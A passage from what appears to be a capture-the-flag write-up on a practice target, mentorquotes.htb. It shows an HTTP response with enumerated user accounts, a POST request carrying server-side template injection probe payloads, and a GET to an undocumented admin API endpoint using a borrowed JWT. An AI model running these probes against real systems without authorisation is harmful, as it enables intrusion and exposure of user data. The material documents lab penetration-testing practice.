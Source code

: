 I was able to extract users.

```http
HTTP/1.1 201 Created
Date: Sun, 26 Feb 2023 16:36:25 GMT
Server: uvicorn
content-length: 305
content-type: application/json
Connection: close

[{"id":1,"email":"james@mentorquotes.htb","username":"james"},{"id":2,"email":"svc@mentorquotes.htb","username":"service_acc"},{"id":4,"email":"admin@mentorquotes.htb","username":"admin"},{"id":5,"email":"admin@mentorquotes.htb","username":"james"},{"id":6,"email":"user@example.com","username":"string"}]
```

I tried creating quotes with [Server Side Template Injection (SSTI) payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect).


```http
POST /quotes/ HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-type: application/json
Authorization: JWT
Content-Length: 125

{
"title":  {% raw %}"{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}*{7*7}"{% endraw %},
"description":  {% raw %}"{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}*{7*7}"{% endraw %}
}
```

The payload was accepted and reflected in the response, but not executed. I looked at the first website. The new quote was there, but again not executed.


## Admin API

I remembered the undocumented admin endpoint found by Feroxbuster. I tried it again with james' JWT.

```http
GET /admin/ HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Authorization: JWT
```

